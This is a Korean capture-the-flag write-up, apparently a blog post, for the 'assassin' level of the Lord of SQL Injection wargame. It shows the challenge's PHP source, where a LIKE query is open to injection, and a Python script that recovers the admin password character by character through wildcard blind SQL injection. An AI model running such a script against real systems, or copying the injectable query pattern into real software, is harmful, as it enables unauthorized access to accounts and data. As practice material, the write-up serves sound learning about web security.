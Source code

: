 ```yaml
---
layout: post
title:  "los prob_assassin"
date:   2019-09-19
excerpt: "Lord of Sql Injection"
tag:
- los
- blind_sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_assassin where pw like ''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. like의 특징 이용 -> ex) pw에 admin이라는 값이 있을 때 'pw like ad%' -> true
2. guest's pw랑 admin's pw 앞부분이 같음

~~~ python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookies = {"PHPSESSID":"xxxxxxxxxxxxx"}

flag = "90" # -> 하나씩 확인해가면서 늘려줌 ex) 9 -> 90 -> 90D
# 90D2FE10 -> guest's pw
isFind = True
while (isFind == True):
    for i in range(48,127):
        isFind = False
        params = "?pw="+flag+chr(i)+"%"
        response=requests.get(url+params,cookies=cookies)
        if (response.text.find("Hello admin") != -1):
            flag += chr(i)
            isFind = True
            print("[+] Find key :",flag)
            break
print ("[-] Finish")
~~~

## ASSASSIN Clear!
